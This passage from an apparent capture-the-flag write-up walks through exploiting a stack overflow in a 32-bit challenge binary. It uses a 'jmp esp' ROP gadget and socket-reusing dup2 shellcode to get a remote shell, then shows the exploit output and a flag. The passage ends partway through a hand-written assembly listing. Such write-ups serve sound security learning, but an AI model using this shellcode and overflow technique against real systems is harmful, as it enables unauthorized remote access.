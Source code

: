 So what does `dupsh` do?  Well it will duplicate FDs so that any read/write to FD's `0`, `1`, `2` will happen over FD `4` and thus over the network.  Boom!  Shell.

Continuing down, the next line just prints the length of the shellcode, this is good practice for space constrained challenges (not a problem here).

Then we need to find the address of `jmp esp`.  Since no PIE, no leak required.

The payload is pretty simple, overflow the buffer to get to the return address (hint `local_414`), then our one line ROP chain of `jmp esp` to jump to the stack and then our shellcode on the stack.

Next is a check for NULLs, if there is a NULL in the payload, it'll bomb out with a disassembly so you can inspect your code.

Lastly we send the payload and get a shell.

Output:

```bash
# ./exploit3.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/yabo/yabo'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.ctf.games on port 32332: Done
[*] len(shellcode): 58
[*] Switching to interactive mode
$ cat flag.txt
flag{2f20f16416a066ca5d4247a438403f21}
```


### Solution 2

This was my second solution, and it is functionally identical to the one above, however I didn't know about `shellcraft.dupsh(4)`.  This will help understand what is really going on and unlike `dupsh(4)`, the FD does not need to be known; the code can figure it out.

```python
from binascii import hexlify

arg0 = b'/bin/sh'

# props: http://shell-storm.org/shellcode/files/shellcode-881.php
shellcode = asm(f'''
/* dup(2) to get next fd, then dec for current */

push 2
pop ebx
push {constants.SYS_dup}
pop eax
int 0x80
dec eax                                                 # should be current fd
mov ebx, eax                                            # put in ebx for dup2

/* dup2(fd,0); dup2(fd,1); dup2(fd,2); */

xor ecx, ecx
push {constants.SYS_dup2}
pop eax
int 0x80
inc ecx
push {constants.SYS_dup2}
pop eax
int 0x80
```